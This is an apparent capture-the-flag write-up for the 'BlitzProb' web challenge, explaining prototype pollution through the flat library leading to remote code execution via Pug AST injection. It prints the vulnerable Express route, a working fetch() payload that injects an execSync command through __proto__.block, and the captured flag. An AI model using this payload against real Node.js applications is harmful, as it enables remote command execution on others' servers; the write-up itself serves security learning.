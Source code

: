 ```yaml
---
title: BlitzProb
date: 2021-04-25 10:13:00 +0200
categories: [web]
tags: [cyberapocalpyse2021]
toc: false
---
```


This challenge contained a Prototype Pollution to RCE via AST Injection. You can read more about it in this great [blog](https://blog.p6.is/AST-Injection/) post. (\* ^ ω ^)

The webpage looks like this:
![](/assets/img/blitzProb_web.png#center)


## Vulnerability
Going through the source code, we can see in the file "challenge/routes/index.js" that the function "unflatten" is called after receiving a post request:

``` javascript
const path              = require('path');
const express           = require('express');
const pug               = require('pug');
const { unflatten }     = require('flat');
const router            = express.Router();

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/submit', (req, res) => {
	const { song } = unflatten(req.body);

	if (song.name.includes('Not Polluting with the boys') || song.name.includes('ASTa la vista baby') || song.name.includes('The Galactic Rhymes') || song.name.includes('The Goose went wild')) {
		return res.json({
			'response': pug.compile('span Hello #{user}, thank you for letting us know!')({ user:'guest' })
		});
	} else {
		return res.json({
			'response': 'Please provide us with the name of an existing song.'
		});
	}
});

module.exports = router;
```

After reviewing the "package.json" file we can see that "flat" “5.0.0” is installed, which suffers from a Prototype Pollution vulnerability via Abstract Syntax Tree. [Here](https://github.com/hughsk/flat/issues/105) you can find the PoC.

## Exploitation
To exploit this vulnerability and read the flag, we simply open the web console and send the payload below to "/api/submit":

```javascript
let CMD = "process.mainModule.require('child_process').execSync('cat /app/flag* >> /app/static/js/flag.txt')"

fetch('/api/submit', {
	method: 'POST',
	body: JSON.stringify({
		'song.name': "Not Polluting with the boys",
		"__proto__.block": {
			"type": "Text", 
			"line": CMD
		}
	}),
	headers: {'Content-Type': 'application/json'}
})
```

The flag file has been written to the static directory of the web server. After visiting /static/js/flag.txt we see the flag:

> CHTB{p0llute_with_styl3}

٩(◕‿◕｡)۶